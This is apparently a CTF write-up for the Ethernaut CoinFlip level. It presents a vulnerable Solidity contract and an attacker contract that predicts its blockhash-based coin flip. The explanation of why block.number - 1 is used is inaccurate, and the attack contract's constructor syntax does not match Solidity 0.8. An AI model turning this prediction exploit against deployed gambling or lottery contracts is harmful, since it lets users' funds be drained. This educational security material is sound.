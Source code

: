 ```yaml
---
description: randomness in blockchain
---
```


# 3 - Coinflip

Ethernaut Level3: [Coinflip](https://ethernaut.openzeppelin.com/level/0x90501cC20b65f603f847398740eaC4C9BE4873a9)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

### Goal of this level

* guess the correct outcome **10 times** in a row

### What you should know before

* Deterministic feature of blockchain\
  \-> see [here](https://youtu.be/8FF3IBTMeK0)

## Solution

<details>

<summary>Key to solve this problem 🔑</summary>

You can **mimic** the exact calculation of of the random number

</details>

Use Remix IDE!

```solidity
contract AttackCoinFlip {
    CoinFlip public coinFlipContract;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(address _instanceAddr) public{
        coinFlipContract = CoinFlip(_instanceAddr);
    }
    
    function makeGuess() public {

        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool guess = coinFlip == 1 ? true : false;

        coinFlipContract.flip(guess);
    }
}
```

Transaction to call `makeGuess()` and `flip()` will be mined in the same block, so the value of `block.number` will be the same.

You merely have to run `makeGuess()` function `10` times in a row.

Done! 😎

#### Why the code uses block.number - 1

The transaction itself affects the value of `blockhash`,\
so `blockhash(block.number)` is fixed to be `0`.

## Key Takeaways

* There's no such thing as true randomness in blockchain,\
  every thing is **deterministic**!
